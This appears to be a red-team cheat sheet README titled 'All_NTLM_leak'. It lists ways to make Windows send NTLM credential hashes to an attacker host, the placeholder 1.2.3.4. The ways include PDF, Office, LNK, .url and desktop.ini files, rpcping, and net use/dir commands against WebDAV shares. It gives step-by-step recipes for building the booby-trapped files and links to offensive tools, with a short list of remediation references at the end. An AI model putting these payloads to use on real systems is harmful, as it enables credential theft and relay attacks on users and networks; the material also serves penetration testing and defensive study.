 # All_NTLM_leak


## PDF file
/F (\\\\\\\\IP@80\\\\t)

## dubdoc
///1.2.3.4@80/t
## Doc
Target=file://1.2.3.4@80/t.dotx
URL
file://IP@80/t.htm
## lnk
URL\=file://1.2.3.4@80/t.htm
## IconFile
\\\\1.2.3.4@80\\t.ico
## rpcping
rpcping -s 1.2.3.4 -e 1234 -a privacy -u NTLM
## dir
dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Net command + WebDAV envoke
* net use \\\\1.2.3.4@80\\t
* net use * \\\\1.2.3.4@SSL@443\\folder\\subfolder password /user:userID
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* net use * http://1.2.3.4/folder/subfolder password /user:root
* net use * \\\\1.2.3.4\\folder\\subfolder password /user:userID
* net use \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe \. (the DavWWWRoot triggers WebDAV forcibly )
* net use \\\\domain.site@80\\uri_folder\\index.html
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Create .url file to leak using “ICO” request to file share
Create a new TXT file and paste the following:<br/>
[InternetShortcut]  <br/>
URL=http://www.WeLoveResponder.com <br/>
IconIndex=0  <br/>
IconFile\=\\\\1.2.3.4\\L3\\3T.ico
Rename the file from .txt to .url

## Create desktop.ini file to leak credentials using a folder
mkdir Folder <br/>
attrib +s Folder <br/>
cd Folder <br/>
echo [.ShellClassInfo] > desktop.ini <br/>
echo IconResource\=\\\\1.2.3.4\\aa >> desktop.ini <br/>
attrib +s +h desktop.ini

## Proxy bypass adress is Intranet for NTLM auto auth
https://github.com/Gl3bGl4z/steal_NTLM_ncat

## Dir, IE/EDGE, Office, URL, LNK, HREF, Media Player, Java web start, ClickOnce
https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html

## Leak credentials using HTML
https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML

## Remediation
* https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd560653(v=ws.10)
* https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-outgoing-ntlm-traffic-to-remote-servers
* https://blogs.technet.microsoft.com/askds/2009/10/08/ntlm-blocking-and-you-application-analysis-and-auditing-methodologies-in-windows-7/

## KBs
* https://www.bleepingcomputer.com/news/security/understanding-the-windows-credential-leak-flaw-and-how-to-prevent-it/
* https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/
* https://www.helpnetsecurity.com/2017/05/15/stealing-windows-credentials-using-google-chrome/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/introducing-responder-10/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-17/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/top-five-ways-spiderlabs-got-domain-admin-on-your-internal-network/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-part-2/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/responder-20-owning-windows-networks-part-3/
* https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/
* https://twitter.com/mynameisv__/status/1123256857072742400
* https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Rpcping.yml
* https://github.com/cure53/HTTPLeaks

## tools
* https://github.com/deepzec/Bad-Pdf
* https://github.com/elnerd/Get-NetNTLM
* https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML
* https://github.com/cure53/HTTPLeaks

